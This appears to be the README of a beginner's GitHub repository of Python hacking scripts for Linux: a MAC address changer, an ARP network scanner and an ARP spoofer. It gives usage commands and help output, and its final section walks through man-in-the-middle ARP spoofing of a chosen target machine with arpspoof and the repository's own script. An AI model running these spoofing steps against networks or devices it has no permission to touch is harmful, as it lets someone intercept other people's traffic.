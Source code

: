 ## PyHacks

This PyHacks repository contains more networking and hacking related python scripts for linux system

---
1. mac_changer.py

this programs helps to change your MAC address (MEDIA ACCESS CONTROL) for your devices using python in ` linux [only]`

`prerequisites : python3`

get interface name for the devices using `ifconfig`

run this py script as root user , use this cmd  to get root privilege ` sudo su ` and specify interface and new mac address

`python3 mac_changer --interface wlan1 --mac 11:22:33:44:55:66`

```
shell > python3 mac_changer.py --help

python3 mac_changer --help
Usage: mac_changer.py [options]

Options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface=INTERFACE
                        Used to select Interface for changing MAC address
  -m NEW_MAC, --mac=NEW_MAC
                        Used to select New MAC addresss

````
this scripts just run linux cmds in background for changing current mac address so this script works only on linux

[FAQ]
 if use python2 to run this script `subprocess.check_output()` and `subprocess.run()`is not defined in python2 , then install python3 `sudo apt install python3`
 subprocess.call() has been changed to subprocess.run() in python3
 ```
File "mac_changer.py", line 29, in get_mac_address
    ifconfig_result =  str(subprocess.check_output(["ifconfig",options.interface]),'ascii')

```
---
### Network Scanner

This Program helps to discover devices in your wifi network

- Connect the Target Wifi Network with your devices , then cmd
`ifconfig` and get the ip address (inet) eg: `192.168.1.10`

```py
python3 network_scanner  --range 192.168.1.1/24
```
This Program , Sends packets to `192.168.1.1` to `192.168.1.254`
Print the discovered Devices ip_address and MAC_address in that target network

[FAQs] if get `ImportError: No module named scapy.all` , then install scapy module 
```
pip install scapy
```
```
Usage: network_scanner.py [options]

Options:
  -h, --help            show this help message and exit
  -r RANGE, --range=RANGE
                        Use -r or --range to Scan Your Wifi Network
```

Network Scanning Using ARP

ARP Protocol is a protocol for mapping IP address to a physical machine that is recognised in the local network

ARP Illustration
- If A , B , C , D , ROUTER  is a network `192.168.43.1/24`
- A is Our machine , which says who has --range `192.168.43.1/24` IP this is ARP request , sends to devices in that network
- C Responds for that request as ARP Response  , like I have `192.168.43.7`  and My MAC address  : `00:11:22:33:44:45` for every other packet also

---
### ARP Spoofer
It's a type of attack in which a macilious actor sends false ARP message over a local network

##### Pre Exisitng Spoofying 
Let ARP Spoofing Using `arpspoof` from `dsniff` tool
First Scan The Local Network and discover Devices over that network , get target machine and router ip address
Let assume Target be a windows machine, 
In cmd prompt , note mac address of router using `arp -a` cmd 
Open 2 Terminal  , this required root privilege 
`arpspoof -i wlan0 -t 192.168.0.143 192.168.0.1`
`arpspoof -i wlano0 -t 192.168.0.1 192.168.0.143`


Note Mac Address of Router `arp -a` , Mac Address of Router was changed to Mac address of our machine.

**To run the script**
```
shell > python3 arp_spoofer.py --help
python3 arp_spoofer.py --help
Usage: arp_spoofer.py [options]

Options:
  -h, --help            show this help message and exit
  -t Target Machine IP , --target=TARGET_IP
                        Used to select Target MAchine IP Address 
  -s Spoof Machine IP , --spoof=SPOOF_IP
                        Used to select Spoof Machine IP Address (Router)
````

Spoofing Machine is Network Router Scan the network using `network_scanner.py` , find ip address , always router ip_address will be `XXX.XXX.X.1` it starts with 1
```py
python3 arp_spoofer.py -t 192.168.0.14 --s 192.168.0.1
``` 

---

